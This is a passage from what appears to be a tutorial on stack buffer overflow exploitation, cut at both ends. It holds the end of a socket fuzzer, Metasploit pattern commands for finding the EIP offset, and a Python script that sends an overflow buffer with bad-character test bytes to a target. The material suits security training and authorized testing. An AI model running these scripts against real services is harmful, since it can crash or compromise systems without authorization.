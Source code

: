 ```bash
            print(f"[-] Size {size}: Timeout - possible crash")
            break
        except ConnectionRefusedError:
            print(f"[-] Size {size}: Connection refused - service crashed")
            break
        except Exception as e:
            print(f"[-] Size {size}: Exception - {str(e)}")
            break

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 fuzzer.py <target_ip> <target_port>")
        sys.exit(1)
    fuzz_target(sys.argv[1], int(sys.argv[2]))
EOF

# Why fuzzing is the starting point:
# - Identifies vulnerable input vectors
# - Determines approximate buffer size limits
# - Confirms crash behavior and reproducibility
# - Establishes baseline for further exploitation

# Step 2: Crash analysis and EIP control
# Generate unique pattern for offset identification
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000 > pattern.txt

# After crash, find offset based on EIP value
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 42306142

# Step 3: Bad character identification
cat > badchar_test.py << 'EOF'
#!/usr/bin/env python3
import socket

def test_bad_characters(target_ip, target_port, offset):
    """Test for bad characters that break exploitation"""
    
    # All possible byte values except null byte
    all_chars = b""
    for i in range(1, 256):  # Skip 0x00 (null byte)
        all_chars += bytes([i])
    
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target_ip, target_port))
        
        buffer = b"A" * offset
        buffer += b"BBBB"  # EIP control
        buffer += all_chars  # Bad character test
        
        print("[+] Sending bad character test payload")
        s.send(buffer)
        s.close()
        
        print("[+] Check debugger for character truncation or corruption")
        
    except Exception as e:
        print(f"[-] Error: {str(e)}")

# Common bad characters to test individually:
common_bad_chars = [0x00, 0x0a, 0x0d, 0x20, 0x23, 0x3c, 0x3e]
print("Common bad characters to test:")
for char in common_bad_chars:
```